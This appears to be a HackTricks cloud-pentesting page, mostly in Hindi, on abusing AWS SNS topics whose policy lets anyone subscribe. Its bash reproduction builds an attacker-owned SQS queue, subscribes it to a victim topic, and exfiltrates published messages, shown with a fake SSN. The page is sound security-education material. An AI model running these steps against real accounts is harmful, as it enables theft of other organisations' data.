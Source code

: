 # AWS - SNS Unauthenticated Enum

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

SNS के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### सभी के लिए खुला

जब आप वेब कंसोल से एक SNS topic कॉन्फ़िगर करते हैं तो आप यह संकेत कर सकते हैं कि **Everyone can publish and subscribe** to the topic:

<figure><img src="../../../../images/image (212).png" alt=""><figcaption></figcaption></figure>

तो अगर आप अकाउंट के अंदर **find the ARN of topics** (या संभावित नामों के लिए brute forcing करके) आप यह **check** कर सकते हैं कि आप उन्हें **publish** या **subscribe** कर सकते हैं।

यह एक SNS topic resource policy के समकक्ष होगा जो `sns:Subscribe` को `*` (या बाहरी accounts को) की अनुमति देता है; कोई भी principal एक subscription बना सकता है जो सभी भविष्य के topic messages को उनके मालिकाना SQS queue में भेजता है। जब queue का owner subscription शुरू करता है, तो SQS endpoints के लिए किसी मानवीय पुष्टि की आवश्यकता नहीं होती।

<details>
<summary>Repro (us-east-1)</summary>
```bash
REGION=us-east-1
# Victim account (topic owner)
VICTIM_TOPIC_ARN=$(aws sns create-topic --name exfil-victim-topic-$(date +%s) --region $REGION --query TopicArn --output text)

# Open the topic to anyone subscribing
cat > /tmp/topic-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"OpenSubscribe","Effect":"Allow","Principal":"*","Action":"sns:Subscribe","Resource":"$VICTIM_TOPIC_ARN"}]}
JSON
aws sns set-topic-attributes --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --attribute-name Policy --attribute-value file:///tmp/topic-policy.json

# Attacker account (queue owner)
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name attacker-exfil-queue-$(date +%s) --region $REGION --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Allow the victim topic to send to the attacker queue
cat > /tmp/sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowVictimTopicSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$ATTACKER_Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$VICTIM_TOPIC_ARN"}}}]}
JSON
aws sqs set-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attributes Policy="$(cat /tmp/sqs-policy.json)"

# Subscribe the attacker queue to the victim topic (auto-confirmed for SQS)
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --protocol sqs --notification-endpoint "$ATTACKER_Q_ARN" --query SubscriptionArn --output text)

# Validation: publish and receive
aws sns publish --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --message {pii:ssn:123-45-6789}
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --query Messages[0].Body --output text
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
